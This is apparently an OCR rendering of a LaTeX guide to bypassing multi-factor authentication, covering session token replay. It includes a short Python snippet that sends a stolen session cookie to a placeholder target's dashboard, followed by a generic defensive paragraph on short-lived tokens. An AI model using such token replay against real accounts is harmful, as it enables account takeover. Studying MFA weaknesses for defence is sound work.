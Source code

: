 
\section{\textbf{Advanced Techniques to Bypass Multi-Factor Authentication (MFA) Systems}}

Bypassing MFA is a critical subject for both offensive operators simulating real-world threats and defenders aiming to harden their authentication workflows. This technical guide explores modern MFA bypass methods with code examples and defensive recommendations.

\subsection{\textbf{1. Session Token Replay and Theft}}

\textbf{Attack Overview:}

Once a user completes MFA, the server issues a session token (e.g., cookie or JWT). If stolen, this token can be reused to impersonate the user without reauthentication.

\textbf{(Python):}

\begin{itemize}
    \item import requests
    \item 

    \item stolen\_cookie = \{"session": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."\}
    \item url = "https://target.example.com/dashboard"
    \item 

    \item resp = requests.get(url, cookies=stolen\_cookie)
    \item print(resp.status\_code, resp.text[:200])
\end{itemize}

\textbf{Defensive Measures:}

Issue short-lived tokens

Defensive measures in cybersecurity are critical to protect user data and prevent attacks. One effective step is issuing short-lived tokens. These tokens act as digital keys that grant access to services or information. Making them valid only for a brief period limits the damage if a token is stolen. Attackers can’t use stolen tokens for long, reducing their chance of success. This approach forces hackers to act quickly and discourages prolonged attacks.

